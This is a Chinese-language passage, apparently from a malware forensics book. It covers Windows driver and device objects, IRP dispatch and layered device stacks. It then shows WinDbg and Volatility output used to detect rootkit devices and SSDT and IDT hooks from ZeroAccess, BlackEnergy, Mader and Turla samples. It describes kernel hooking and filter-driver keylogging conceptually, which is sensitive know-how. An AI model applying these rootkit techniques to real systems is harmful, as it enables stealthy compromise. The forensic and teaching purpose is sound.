当驱动加载到系统中时，I/O管理器创建一个驱动对象(DRIVER_OBJECT结构)。然后，I/O管理器调用驱动程序的初始化例程，DriverEntry(类似于main()或WinMain()函数)，通过传递一个指针到DRIVER_OBJECT结构作为参数。一个驱动对象(DRIVER_OBJECT结构)代表系统上的一个单独的驱动。DriverEntry例程将使用DRIVER_OBJECT用驱动的各种入口点来填充它，以处理特定的I/O请求。通常，在DriverEntry例程中，驱动程序创建一个代表逻辑或物理设备的设备对象(DEVICE_OBJECT结构)。设备是通过一个叫做IoCreateDevice或IoCreateDevice-Secure的API创建的。当驱动程序创建一个设备对象时，它可以有选择地为设备分配名称，它也可以创建多个设备。设备创建后，指向第一个创建的设备的指针在驱动程序对象中更新。为了帮助您更好地理解这一点，让我们列出已加载的内核模块，并查看一个简单内核模块的驱动程序对象。对于本例，我们将检查null.sys内核驱动程序。根据Microsoft文档，Null设备驱动程序在Unix环境中提供了与\dev\Null等价的功能。当系统在内核初始化期间启动时阶段,null.Sys被加载到系统中。在内核模块清单中，您可以看到这个null.Sys被装载在基地地址8bcde000:
```
kd> lm k
start end module name
80ba2000 80baa000 kdcom (deferred) 81e29000 81e44000 luafv (deferred) [REMOVED]
8bcde000 8bce5000 Null (deferred)
```
当null.sys加载后，它的驱动对象(DRIVER_OBJECT结构)将在驱动初始化期间填充元数据信息。让我们看看它的驱动程序对象，以了解它包含什么样的信息。可以使用!drvobj扩展名命令显示驱动对象信息。从下面的输出中，驱动程序对象表示为空。Sys的地址是86a33180。设备对象列表下面的值86aa2750是指向null.sys创建的设备对象的指针。如果驱动程序创建了多个设备，你会在设备对象列表中看到多个条目:
```
kd> !drvobj Null
Driver object (86a33180) is for:
    \Driver\Null
   Driver Extension List: (id , addr)
   Device Object list:
86aa2750
```
你可以使用驱动程序对象地址86a33180来检查_DRIVER_OBJECT结构为空。可以通过dt (display type)命令查看。从下面的输出中，您可以看到DriverStart字段保存了驱动程序的基址(0x8bcde000)，DriverSize字段包含驱动的大小(0x7000)，driverame是驱动对象的名称(\ driver \Null)。DriverInit字段保存驱动初始化例程(DriverEntry)的指针。DriverUnload字段包含指向驱动程序卸载例程的指针，它通常会在卸载过程中释放驱动程序创建的资源。MajorFunction字段是最重要的字段之一，它指向包含28个主要函数指针的表。这个表将使用分派例程的地址填充，我们将在本节的后面讨论MajorFunction表。前面介绍的driverscan插件会对驱动对象进行池标记扫描，并通过读取这些字段来获取与内核模块相关的信息，如基址、大小和驱动名称:
```

kd> dt nt!_DRIVER_OBJECT 86a33180
+0x000 Type : 0n4
+0x002 Size : 0n168
+0x004 DeviceObject : 0x86aa2750 _DEVICE_OBJECT +0x008 Flags : 0x12
+0x00c DriverStart : 0x8bcde000 Void
+0x010 DriverSize : 0x7000
+0x014 DriverSection : 0x86aa2608 Void
+0x018 DriverExtension : 0x86a33228 _DRIVER_EXTENSION +0x01c DriverName : _UNICODE_STRING "\Driver\Null" +0x024 HardwareDatabase : 0x82d86270 _UNICODE_STRING
"\REGISTRY\MACHINE\HARDWARE\DESCRIPTION\SYSTEM"
+0x028 FastIoDispatch : 0x8bce0000 _FAST_IO_DISPATCH +0x02c DriverInit : 0x8bce20bc long Null!GsDriverEntry+0 +0x030 DriverStartIo : (null)
+0x034 DriverUnload : 0x8bce1040 void Null!NlsUnload+0 +0x038 MajorFunction : [28] 0x8bce107c
```
DRIVER_OBJECT结构中的DeviceObject字段包含驱动程序(null.sys)创建的设备对象的指针。您可以使用设备对象地址0x86aa2750来确定驱动程序创建的设备名称。在这种情况下，Null是驱动程序Null.sys创建的设备名称:
```
kd> !devobj 86aa2750
Device object (86aa2750) is for:
Null \Driver\Null DriverObject 86a33180
Current Irp 00000000 RefCount 0 Type 00000015 Flags 00000040 Dacl 8c667558 DevExt 00000000 DevObjExt 86aa2808 ExtensionFlags (0x00000800) DOE_DEFAULT_SD_PRESENT Characteristics (0x00000100) FILE_DEVICE_SECURE_OPEN
Device queue is not busy.
```
您还可以通过在display type (dt)命令旁边指定设备对象地址来查看实际的DEVICE_OBJECT结构，如下面的代码所示。如果驱动程序创建了多个设备，那么DEVICE_OBJECT结构中的NextDevice字段将指向下一个设备对象。由于null.sys driver只创建一个设备，NextDevice字段设置为空:
```
kd> dt nt!_DEVICE_OBJECT 86aa2750
+0x000 Type : 0n3
+0x002 Size : 0xb8
+0x004 ReferenceCount : 0n0
+0x008 DriverObject : 0x86a33180 _DRIVER_OBJECT +0x00c NextDevice : (null)
      +0x010 AttachedDevice : (null)
      +0x014 CurrentIrp : (null)
      +0x018 Timer : (null)
      +0x01c Flags : 0x40
      +0x020 Characteristics : 0x100
      +0x024 Vpb : (null)
      +0x028 DeviceExtension : (null)
      +0x02c DeviceType : 0x15
      +0x030 StackSize : 1 ''
      [REMOVED]

```
从前面的输出中，您可以看到DEVICE_OBJECT包含一个指向驱动对象的DriverObject字段。换句话说，关联的驱动程序可以从设备对象中确定。这就是当I/O管理器接收到特定设备的I/O请求时，它可以确定相关驱动程序的方式。这个概念可以通过以下图表来可视化:


您可以使用GUI工具，如DeviceTree (http://www.osronline.com/article.cfm?article=97)查看驱动程序创建的设备。下面是一个工具的屏幕截图，显示了Null设备创建的Null.sys驱动:


当一个驱动程序创建一个设备时，设备对象被放置在Windows对象管理器命名空间的\device目录中。要查看对象管理器的名称空间信息，可以使用WinObj工具(https://docs.microsoft.com/en-us/sysinternals/downloads/WinObj)。下面的截图显示了Null创建的设备Null.sys在\Device目录下。你也可以看到其他驱动程序创建的设备:



运行在用户模式下的应用程序无法访问在\device目录下创建的设备。换句话说，如果用户模式应用程序想要在设备上执行I/O操作，它不能通过传递设备的名称(如\device\Null)作为CreateFile函数的参数直接打开设备句柄。CreateFile函数不仅仅用于创建或打开文件，它还可以用于打开设备的句柄。如果用户模式应用程序不能访问设备，那么它如何执行I/O操作?为了让用户模式应用程序可以访问设备，驱动程序需要发布设备。这是通过创建到设备的符号链接来完成的。驱动程序可以使用内核API IoCreateSymbolicLink来创建符号链接。当为一个设备(如\device\Null)创建一个符号链接时，您可以在\GLOBAL??对象管理器名称空间中的目录，也可以使用WinObj工具。在下面的截图中，您可以看到NUL是通过null.sys驱动的名为为\Device\Null设备创建的符号链接。


符号链接也被称为MS-DOS设备名。用户模式应用程序可以简单地使用符号链接的名称(MS-DOS设备名)来使用约定打开设备句柄 \\.\<symboliclink name>。例如，要打开\Device\Null的句柄，用户模式应用程序必须只传递\\.\NUL作为CreateFile函数的第一个参数(lpFilename)，它返回设备的文件句柄。具体地说，对象管理器目录GLOBAL中的任何符号链接。可以使用CreateFile函数打开。如下图所示，C:卷只是一个到\Device\HarddiskVolume1的符号链接。在Windows操作系统中，I/O操作是在虚拟文件上进行的。换句话说，设备、目录、管道和文件都被视为虚拟文件(可以使用CreateFile函数打开):

此时，您知道驱动程序在其初始化过程中创建设备，并使用符号链接将其发布给用户应用程序使用。现在，问题是，驱动程序如何告诉I/O管理器它支持设备的什么类型的操作(打开、读、写，等等)?在初始化期间，驱动程序通常做的另一件事是用DRIVER_OBJECT结构中分派例程的地址更新Major函数表(分派例程数组)。通过查看主要函数表，您可以了解驱动程序支持的操作类型(打开、读取、写入等)，以及与特定操作关联的调度例程的地址。主函数表是一个包含28个函数指针的数组;索引值0到27表示一个特定的操作。例如，索引值0对应于主函数代码IRP_MJ_CREATE，索引值3对应于主函数代码IRP_MJ_READ，以此类推。换句话说，如果应用程序想打开一个文件或设备对象的句柄，请求将被发送到I/O管理器，然后使用将IRP_MJ_CREATE主函数代码作为主函数表的索引，以查找将处理此请求的调度例程的地址。与读取操作相同，使用IRP_MJ_READ作为索引来确定分派例程的地址。

以下!drvobj命令显示由null.sys驱动程序填充的分派例程数组。驱动程序不支持的操作指向ntoskrnl.exe (nt)中的IopInvalidDeviceRequest。根据这个信息，你可以判断为null.sys仅支持IRP_MJ_CREATE (open)、IRP_MJ_CLOSE (close)、IRP_MJ_READ (read)、IRP_MJ_WRITE (write)、IRP_MJ_QUERY_INFORMATION(查询信息)、IRP_MJ_LOCK_CONTROL(锁控制)操作。执行任何支持的操作的任何请求都将被分派到适当的分派例程。例如，当用户应用程序执行写操作时，对设备的写请求将被分配到MajorFunction[IRP_MJ_WRITE]函数，该函数恰好位于null.sys驱动的卸载程序中的8bce107c地址。在nul.Sys的情况下，所有受支持的操作都分派给同一个操作地址,8bce107c。通常情况下，情况并非如此;你会看到不同的例程地址用于处理不同的操作:
```
kd> !drvobj Null 2
Driver object (86a33180) is for:
 \Driver\Null
DriverEntry: 8bce20bc Null!GsDriverEntry
DriverStartIo: 00000000
DriverUnload: 8bce1040 Null!NlsUnload
AddDevice: 00000000
Dispatch routines:
[00] IRP_MJ_CREATE
[01] IRP_MJ_CREATE_NAMED_PIPE
[02] IRP_MJ_CLOSE
[03] IRP_MJ_READ
[04] IRP_MJ_WRITE
[05] IRP_MJ_QUERY_INFORMATION
[06] IRP_MJ_SET_INFORMATION
[07] IRP_MJ_QUERY_EA
[08] IRP_MJ_SET_EA
[09] IRP_MJ_FLUSH_BUFFERS
[0a] IRP_MJ_QUERY_VOLUME_INFORMATION 82ac5fbe nt!IopInvalidDeviceRequest
[0b] IRP_MJ_SET_VOLUME_INFORMATION
[0c] IRP_MJ_DIRECTORY_CONTROL
[0d] IRP_MJ_FILE_SYSTEM_CONTROL
[0e] IRP_MJ_DEVICE_CONTROL
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
[0f] IRP_MJ_INTERNAL_DEVICE_CONTROL  82ac5fbe nt!IopInvalidDeviceRequest
[10] IRP_MJ_SHUTDOWN
[11] IRP_MJ_LOCK_CONTROL
[12] IRP_MJ_CLEANUP
[13] IRP_MJ_CREATE_MAILSLOT
[14] IRP_MJ_QUERY_SECURITY
[15] IRP_MJ_SET_SECURITY
[16] IRP_MJ_POWER
[17] IRP_MJ_SYSTEM_CONTROL
[18] IRP_MJ_DEVICE_CHANGE
[19] IRP_MJ_QUERY_QUOTA
[1a] IRP_MJ_SET_QUOTA
[1b] IRP_MJ_PNP
82ac5fbe nt!IopInvalidDeviceRequest
8bce107c Null!NlsUnload+0x3c
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
82ac5fbe nt!IopInvalidDeviceRequest
```


您还可以在DeviceTree工具中查看支持的操作，如下截图所示:

此时，您知道驱动程序创建了设备，将其发布给用户应用程序使用，并且它还更新调度例程数组(主函数表)，告诉I/O管理器它支持什么操作。现在，让我们看看I/O管理器的角色是什么，并理解如何将从用户应用程序接收的I/O请求分派给驱动程序。
#### 6.2 I/O管理器的角色
当I/O请求到达I/O管理器时，I/O管理器会定位驱动程序并创建一个IRP (I/O请求包)，这是一个包含描述I/O请求信息的数据结构。对于读、写等操作，由I/O管理器创建的IRP还在内核内存中包含一个缓冲区，驱动程序使用它来存储从设备读取的数据或将写入设备的数据。然后，由I/O管理器创建的IRP被传递给正确的驱动程序的调度例程。驱动程序接收到IRP, IRP包含描述操作(打开、读或写)的主要函数代码(IRP_MJ_XXX)。在开始I/O操作之前，驱动程序执行检查以确保一切正常(例如，为读或写操作提供的缓冲区足够大)，然后启动I/O操作。如果需要在硬件设备上执行I/O操作，驱动程序通常会经过HAL例程。在完成它的工作之后，驱动程序将IRP返回给I/O管理器，要么让它知道所请求的I/O操作已经完成，要么因为它必须被传递给另一个驱动程序，以便在驱动程序堆栈中进行进一步的处理。如果任务完成，I/O管理器将释放IRP，或者将IRP传递给设备堆栈中的下一个驱动程序来完成IRP。任务完成后，I/O管理器将状态和数据返回给用户模式应用程序。

> 此时，您应该了解了I/O管理器的角色。有关I/O系统和设备驱动程序的详细信息，请参阅Pavel Yosifovich、Alex Ionescu、Mark E. Russinovich和David A. Solomon的著作《Windows Internals, Part 1: 7th Edition》。

#### 6.3 与设备驱动程序通信
现在，让我们回顾一下用户模式组件和内核模式组件之间的交互。我们会回到null.sys的例子驱动程序从用户模式触发对其设备(\device\Null)的写操作，并监视IRP发送到Null.sys的系统驱动程序。为了监视发送给驱动程序的IRP包，我们可以使用IrpTracker工具(https://www.osronline.com/article.cfm?article=199)。要以管理员身份监视IrpTracker的启动，单击File | Select Driver并输入驱动程序的名称(在本例中为null)，如下面的截图所示，然后选择OK按钮:


现在，要触发I/O操作，可以打开命令提示符并键入以下命令。这将把字符串"hello"写入空设备。如前所述，符号链接名称是用户模式应用程序(如cmd.exe)可以使用的名称;这就是我指定设备符号链接名称(NUL)来写入内容的原因:
```
C:\>echo "hello" > NUL
```
设备被视为一个虚拟文件，在写入设备之前，设备的句柄将使用CreateFile()(一个用于创建/打开文件或设备的API)打开。CreateFile() API最终将调用ntoskrnl.exe中的NtCreateFile()，它将请求发送给I/O管理器。I/O管理器根据符号链接名称找到与设备相关联的驱动程序，并调用与IRP_MJ_CREATE主函数代码相对应的调度例程。打开设备句柄后，使用WriteFile()执行写操作，它将调用NtWriteFile。这个请求将由I/O管理器分派到与IRP_MJ_WRITE主函数代码相对应的驱动程序例程。下面的截图显示了对IRP_MJ_CREATE和IRP_MJ_WRITE对应的驱动调度例程的调用和它们的完成状态:


此时，您应该了解执行I/O操作的用户模式代码如何与内核模式驱动程序通信。Windows支持另一种机制，它允许用户模式代码直接与内核模式设备驱动程序通信。这是使用称为DeviceIoControl的通用API(由kernel32.dll导出)完成的。这个API接受设备的句柄作为参数之一。它接受的另一个参数是控制代码，称为IOCTL (I/O控制)代码，它是一个32位整数值。每个控制代码标识要执行的特定操作以及执行该操作的设备类型。用户态应用程序可以打开设备句柄(使用CreateFile)，调用DeviceIoControl，并通过Windows操作系统提供的标准控制代码，对设备进行直接的输入输出操作，如硬盘驱动器、磁带驱动器、光盘驱动器等。另外，一个设备驱动程序(一个rootkit驱动程序)可以定义它自己的特定于设备的控制代码，rootkit的用户模式组件可以使用这些代码通过DeviceIoControl API与驱动程序通信。当用户模式组件通过传递IOCTL代码来调用DeviceIoControl时，它会在ntdll.dll中调用NtDeviceIoControlFile，它会将线程转换到内核模式，并在Windows执行程序ntoskrnl.exe中调用系统服务例程NtDeviceIoControlFile。Windows执行程序调用I/O管理器，I/O管理器构建一个包含IOCTL代码的IRP包，然后将其路由到由IRP_MJ_DEVICE_CONTROL标识的内核调度例程。下面的图表说明了用户模式代码和内核模式驱动程序之间通信的概念:


#### 6.4 I/O请求分层驱动
到目前为止，您已经了解了I/O请求是如何由单个驱动程序控制的简单设备处理的。I/O请求可以经过多层驱动程序;分层驱动程序的I/O处理也以同样的方式进行。下面的截图展示了一个I/O请求如何在到达基于硬件的设备之前通过分层驱动程序的例子:


通过一个示例可以更好地理解这个概念，所以让我们触发一个写操作使用以下命令到c:\abc.txt。当执行该命令时，netstat将打开abc.txt的句柄并写入:
```
C:\Windows\system32>netstat -an -t 60 > C:\abc.txt
```
这里要注意的一点是文件名(C:\abc.txt)还包括文件所在设备的名称，即卷C:是符号链接的名称HarddiskVolume1(你可以使用WinObj工具验证它，如前所述)。这意味着写操作将被路由到与设备\device\HarddiskVolume1相关联的驱动程序。当netstat.exe打开abc.txt时，I/O管理器创建一个文件对象(FILE_OBJECT结构)，并在返回netstat.exe句柄之前，将指向设备对象的指针存储在文件对象中。下面这张来自ProcessHacker工具的截图显示了已被netstat.exe打开的C:\abc.txt的句柄。对象地址0x85f78ce8表示文件对象:


可以使用对象地址检查文件对象(FILE_OBJECT)，如下所示。从输出中，可以看到FileName字段包含文件名称，DeviceObject字段包含指向设备对象(DEVICE_OBJECT)的指针:
```
kd> dt nt!_FILE_OBJECT 0x85f78ce8
+0x000 Type : 0n5
+0x002 Size : 0n128
+0x004 DeviceObject : 0x868e7e20 _DEVICE_OBJECT +0x008 Vpb : 0x8688b658 _VPB
+0x00c FsContext : 0xa74fecf0 Void
[REMOVED]
+0x030 FileName : _UNICODE_STRING "\abc.txt" +0x038 CurrentByteOffset : _LARGE_INTEGER 0xe000
```
正如前面提到的，从设备对象中，可以确定设备的名称和相关的驱动程序。这就是I/O管理器决定将I/O请求传递给哪个驱动程序的方式。下面的输出显示设备的名称HarddiskVolume1及其关联的驱动程序volmgr.sys。attachddevice字段告诉您有一个未命名的设备对象(868e7b28)与fvevol.sys驱动位于设备堆栈中设备对象HarddiskVolume1的顶部:
```

kd> !devobj 0x868e7e20
Device object (868e7e20) is for:
HarddiskVolume1 \Driver\volmgr DriverObject 862e0bd8
Current Irp 00000000 RefCount 13540 Type 00000007 Flags 00201150
Vpb 8688b658 Dacl 8c7b3874 DevExt 868e7ed8 DevObjExt 868e7fc0 Dope 86928870 DevNode 86928968
ExtensionFlags (0x00000800) DOE_DEFAULT_SD_PRESENT
Characteristics (0000000000)
AttachedDevice (Upper) 868e7b28 \Driver\fvevol
Device queue is not busy.
```
要确定I/O请求通过的驱动层，可以使用!devstack内核调试器命令，并传递设备对象地址来显示与特定设备对象关联的(分层设备对象的)设备堆栈。下面的输出显示了与\device\HarddiskVolume1关联的设备堆栈，该设备由volmgr.sys所有。第四列中的>字符告诉您，该条目与设备HarddiskVolume1相关联，该行上面的条目是在volmgr.sys之上分层的驱动程序列表。这意味着I/O请求将首先被I/O管理器传递给volsnap.sys。根据请求的类型，volsnap.sys可以处理IRP请求，并将请求发送到堆栈中的其他驱动程序，最终到达volmgr.sys:
```
kd> !devstack 0x868e7e20
!DevObj !DrvObj !DevExt ObjectName 
85707658 \Driver\volsnap 85707710 
868e78c0 \Driver\rdyboost 868e7978 
868e7b28 \Driver\fvevol 868e7be0
> 868e7e20 \Driver\volmgr 868e7ed8 HarddiskVolume1
```
要查看设备树，可以使用GUI工具DeviceTree(我们在前面提到过)。该工具将驱动程序显示在树的外缘，它们的设备缩进了一级。附件中的设备是进一步的打算，如下截图所示。你可以将下面的截图与前面的!devstack的输出进行比较，以了解如何解释这些信息:


理解这种分层的方法是很重要的，因为有时候，一个新手驱动可以插入或附加在目标设备的堆栈下面或上面来接收IRP。使用这种技术，rootkit驱动程序可以在将IRP传递给合法驱动程序之前记录或修改它。例如，键盘记录器可以通过插入位于键盘函数驱动程序之上的恶意驱动程序来记录击键。
### 7. 显示设备树
您可以使用volatile中的devicetree插件以与devicetree工具相同的格式显示设备树。以下突出显示的条目显示了与volmgr.sys相关联的HarddiskVolume1的设备堆栈:
```
$ python vol.py -f win7_x86.vmem --profile=Win7SP1x86 devicetree
   DRV 0x05329db8 \Driver\WMIxWDM
   ---| DEV 0x85729a38 WMIAdminDevice FILE_DEVICE_UNKNOWN
   ---| DEV 0x85729b60 WMIDataDevice FILE_DEVICE_UNKNOWN
   [REMOVED]
DRV 0xbf2e0bd8 \Driver\volmgr
---| DEV 0x868e7e20 HarddiskVolume1 FILE_DEVICE_DISK
------| ATT 0x868e7b28 - \Driver\fvevol FILE_DEVICE_DISK ---------| ATT 0x868e78c0 - \Driver\rdyboost FILE_DEVICE_DISK ------------| ATT 0x85707658 - \Driver\volsnap FILE_DEVICE_DISK [REMOVED]
```


为了帮助您理解devicetree插件在司法调查中的使用，让我们来看看一个恶意软件，它创建自己的设备来存储恶意二进制文件。在下面的ZeroAccess rootkit示例中，我使用了cmdline插件，它显示进程命令行参数。这在确定进程的完整路径时很有用(您也可以使用dlllist插件)。从输出中可以看到最后一个svchost.exe进程在可疑的命名空间中运行:
```
 svchost.exe pid: 624
   Command line : C:\Windows\system32\svchost.exe -k DcomLaunch
   svchost.exe pid: 712
   Command line : C:\Windows\system32\svchost.exe -k RPCSS
   svchost.exe pid: 764
   Command line : C:\Windows\System32\svchost.exe -k
   LocalServiceNetworkRestricted
   svchost.exe pid: 876
   Command line : C:\Windows\System32\svchost.exe -k
   LocalSystemNetworkRestricted
   [REMOVED]
   svchost.exe pid: 1096
   Command line : "\\.\globalroot\Device\svchost.exe\svchost.exe"
   
```
在之前的讨论中，如果你还记得，\\.\<symbolic link name>是从用户模式访问设备的约定的名称。当一个驱动程序为设备创建一个符号链接时，它会被添加到\GLOBAL??在对象管理器名称空间中的目录(可以使用WinObj工具查看，正如我们前面讨论的那样)。在本例中，globalroot是符号链接的名称。那么，问题是，什么是\\.\globalroot?结果是 \\.\globalroot查询\global??命名空间。换句话说,\\.\globalroot\Device\svchost.exe\svchost.exe路径与\Device\svchost.exe\svchost.exe相同。在这个阶段，您知道ZeroAccess rootkit会创建它自己的设备(svchost.exe)来隐藏它的恶意二进制文件svchost.exe。要识别创建该设备的驱动程序，可以使用设备树插件。从下面的输出中，可以看出svchost.exe设备是由00015300创建的。sys司机:

```
$ python vol.py -f zaccess1.vmem --profile=Win7SP1x86 devicetree [REMOVED]
DRV 0x1fc84478 \Driver\00015300
---| DEV 0x84ffbf08 svchost.exe FILE_DEVICE_DISK
```
在下面的BlackEnergy恶意软件的例子中，它取代了合法的
aliide。使用恶意驱动程序来劫持现有服务(在调查服务一节的第10章，使用内存取证来捕获恶意软件)。当服务启动时，恶意驱动程序创建一个设备来与恶意用户模式组件(DLL注入到合法的svchost.exe进程中)通信。以下设备树输出显示了恶意驱动创建的设备:
```
$ python vol.py -f be3_big_restart.vmem --profile=Win7SP1x64 devicetree | grep -i aliide -A1
Volatility Foundation Volatility Framework 2.6
DRV 0x1e45fbe0 \Driver\aliide
---| DEV 0xfffffa8008670e40 {C9059FFF-1C49-4445-83E8-4F16387C3800} FILE_DEVICE_UNKNOWN
```
了解恶意驱动程序支持的操作类型。你可以使用挥发的驱动程序插件，因为它显示了与特定驱动程序或所有驱动程序相关的主要IRP函数。从下面的输出中，可以看出恶意aliide驱动程序支持IRP_MJ_CREATE(打开)、IRP_MJ_CLOSE(关闭)和IRP_MJ_DEVICE_CONTROL(DeviceIoControl)操作。驱动程序不支持的操作通常在ntoskrnl.exe中指向IopInvalidDeviceRequest，这就是为什么你在ntoskrnl.exe中看到所有其他不支持的操作指向0xfffff80002a5865c的原因:
```
$ python vol.py -f be3_big_restart.vmem --profile=Win7SP1x64 driverirp -r aliide
Volatility Foundation Volatility Framework 2.6 --------------------------------------------------
 DriverName: aliide
DriverStart: 0xfffff88003e1d000
DriverSize: 0x14000
DriverStartIo: 0x0
   0 IRP_MJ_CREATE
   1 IRP_MJ_CREATE_NAMED_PIPE
   2 IRP_MJ_CLOSE
   3 IRP_MJ_READ
4 IRP_MJ_WRITE
[REMOVED]
12 IRP_MJ_DIRECTORY_CONTROL
13 IRP_MJ_FILE_SYSTEM_CONTROL
14 IRP_MJ_DEVICE_CONTROL
15 IRP_MJ_INTERNAL_DEVICE_CONTROL 0xfffff80002a5865c ntoskrnl.exe [REMOVED]
```


### 8. 检测内核空间挂钩
当讨论钩子技术时(在第8章，代码注入和钩子)在钩子技术一节中，我们看到了一些恶意程序如何修改调用表(IAT钩子)和一些修改API函数(内联钩子)来控制程序的执行路径，并将其重新路由到恶意代码。目标是阻止对API的调用，监视传递给API的输入参数，或过滤从API返回的输出参数。在第8章，代码注入和hook，主要关注用户空间中的hook技术。如果攻击者设法安装内核驱动程序，在内核空间中也可能有类似的功能。与在用户空间中挂接相比，在内核空间中挂接是一种更强大的方法，因为内核组件在整个系统的操作中扮演着非常重要的角色。它允许攻击者以较高的权限执行代码，使他们能够隐藏恶意组件的存在、绕过安全软件或拦截执行路径。在本节中，我们将了解内核空间中的不同挂钩技术，以及如何使用内存取证来检测这些技术。
#### 8.1 检测SSDT挂钩
内核空间中的系统服务描述符表(SSDT)包含内核执行程序(ntoskrnl.exe、ntkrnlpa.exe等)导出的系统服务例程(内核函数)的指针。当应用程序调用WriteFile()、ReadFile()或CreateProcess()等API时，它会调用ntdll.dll中的存根，它会将线程切换到内核模式。在内核模式下运行的线程会查询SSDT以确定要调用的内核函数的地址。下面的截图用一个WriteFile()的例子说明了这个概念(这个概念和其他api类似):



通常，ntoskrnl.exe导出核心内核API函数，例如NtReadFile()， NtWrite()File，等等。在x86平台中，指向这些内核函数的指针直接存储在SSDT中，而在x64平台上，SSDT不包含指针。相反，它存储一个经过编码的整数，该整数被解码以确定内核函数的地址。无论实现是什么，概念都是相同的，并且要咨询SSDT来确定特定内核函数的地址。Windows7 x86平台下的WinDbg命令会显示SSDT的内容。表中的条目包含指向ntoskrnl.exe (nt)实现的函数的指针。条目的顺序和数量因操作系统版本而异:
```
kd> dps nt!KiServiceTable
82a8f5fc 82c8f06a nt!NtAcceptConnectPort
82a8f600 82ad2739 nt!NtAccessCheck
82a8f604 82c1e065 nt!NtAccessCheckAndAuditAlarm
82a8f608 82a35a1c nt!NtAccessCheckByType
82a8f60c 82c9093d nt!NtAccessCheckByTypeAndAuditAlarm
82a8f610 82b0f7a4 nt!NtAccessCheckByTypeResultList
82a8f614 82d02611 nt!NtAccessCheckByTypeResultListAndAuditAlarm [REMOVED]
```
还有第二个表，类似于SSDT，称为SSDT影子。该表存储了指向win32k.sys导出的gui相关函数的指针。要显示这两个表的条目，可以使用ssdtVolatility插件，如下所示。SSDT[0]为本机SSDT表，SSDT[1]为SSDT影子:
```
$ python vol.py -f win7_x86.vmem --profile=Win7SP1x86 ssdt Volatility Foundation Volatility Framework 2.6
[x86] Gathering all referenced SSDTs from KTHREADs... Finding appropriate address space for tables...
   SSDT[0] at 82a8f5fc with 401 entries
     Entry 0x0000: 0x82c8f06a (NtAcceptConnectPort) owned by ntoskrnl.exe
     Entry 0x0001: 0x82ad2739 (NtAccessCheck) owned by ntoskrnl.exe
     Entry 0x0002: 0x82c1e065 (NtAccessCheckAndAuditAlarm) owned by
   ntoskrnl.exe
     Entry 0x0003: 0x82a35a1c (NtAccessCheckByType) owned by ntoskrnl.exe
     [REMOVED]
   SSDT[1] at 96c37000 with 825 entries
     Entry 0x1000: 0x96bc0e6d (NtGdiAbortDoc) owned by win32k.sys
     Entry 0x1001: 0x96bd9497 (NtGdiAbortPath) owned by win32k.sys
     Entry 0x1002: 0x96a272c1 (NtGdiAddFontResourceW) owned by win32k.sys
     Entry 0x1003: 0x96bcff67 (NtGdiAddRemoteFontToDC) owned by win32k.sys
```

要检测SSDT挂钩，可以在SSDT表中查找不指向ntoskrnl.exe或win32k.sys中的地址的条目。以下代码是一个示例
Mader rootkit，它钩住各种与注册表相关的函数，并将它们指向恶意驱动程序core.sys。在这个阶段，您可以确定核心的基址。Sys使用模块、modscan或驱动程序，然后使用moddump插件将其转储到磁盘上进行进一步分析:
```

$ python vol.py -f mader.vmem --profile=WinXPSP3x86 ssdt | egrep -v "(ntoskrnl|win32k)"
Volatility Foundation Volatility Framework 2.6
[x86] Gathering all referenced SSDTs from KTHREADs...
   Finding appropriate address space for tables...
   SSDT[0] at 80501b8c with 284 entries
     Entry 0x0019: 0xf66eb74e (NtClose) owned by core.sys
     Entry 0x0029: 0xf66eb604 (NtCreateKey) owned by core.sys
     Entry 0x003f: 0xf66eb6a6 (NtDeleteKey) owned by core.sys
     Entry 0x0041: 0xf66eb6ce (NtDeleteValueKey) owned by core.sys
     Entry 0x0062: 0xf66eb748 (NtLoadKey) owned by core.sys
     Entry 0x0077: 0xf66eb4a7 (NtOpenKey) owned by core.sys
     Entry 0x00c1: 0xf66eb6f8 (NtReplaceKey) owned by core.sys
     Entry 0x00cc: 0xf66eb720 (NtRestoreKey) owned by core.sys
     Entry 0x00f7: 0xf66eb654 (NtSetValueKey) owned by core.sys
```

对攻击者使用SSDT挂接的缺点是它很容易被检测到，而且Windows的64位版本由于内核补丁保护(KPP)机制，也被称为PatchGuard (https://en.wikipedia.org/wiki/Kernel_Patch_ Protection)，阻止了SSDT挂接。由于SSDT中的条目在不同版本的Windows中有所不同，并且在较新的版本中可能会发生变化，因此恶意软件作者很难编写可靠的rootkit。
#### 8.2 检测IDT挂钩
中断描述符表(IDT)存储了ISR(中断服务例程或中断处理程序)函数的地址。这些函数处理中断和处理器异常。与挂接SSDT一样，攻击者也可以挂接IDT中的条目，将控制权重定向到恶意代码。要显示IDT条目，你可以使用IDTVolatility插件。一个与IDT挂钩的恶意软件的例子是Uroburos (Turla) rootkit。这个rootkit钩住了位于0xc3 (INT C3)索引的中断处理程序。在一个干净的系统上，0xC3处的中断处理程序指向ntoskrnl.exe内存中的一个地址。以下输出显示了来自clean系统的条目:
```
$ python vol.py -f win7.vmem --profile=Win7SP1x86 idt Volatility Foundation Volatility Framework 2.6
      CPU   Index   Selector   Value        Module      Section
   ------   ------  ---------- ----------  ---------    ------------
 0 0
0 1
0 2
0 3
[REMOVED]
0 C1 0x8 0x8282f3f4 hal.dll _PAGELK 
0 C2 0x8 0x8288eea4 ntoskrnl.exe .text 
0 C3 0x8 0x8288eeae ntoskrnl.exe .text
```


下面的输出显示钩住的条目。可以看到IDT中的0xC3条目指向UNKNOWN模块中的一个地址。换句话说，被钩入的条目位于ntoskrnl.exe模块的范围之外:
```
$ python vol.py -f turla1.vmem --profile=Win7SP1x86 idt Volatility Foundation Volatility Framework 2.6
      CPU   Index   Selector   Value        Module      Section
   ------   ------  ---------- ----------  ---------    ------------
0    0
0    1
0    2
0    3
[REMOVED]
0x8     0x82890200  ntoskrnl.exe  .text
0x8     0x82890390  ntoskrnl.exe  .text
0x58    0x00000000  NOT USED
0x8     0x82890800  ntoskrnl.exe  .text
0 C1 0x8 0x8282f3f4 hal.dll _PAGELK 
0 C2 0x8 0x8288eea4 ntoskrnl.exe .text 
0 C3 0x8 0x85b422b0 UNKNOWN
```



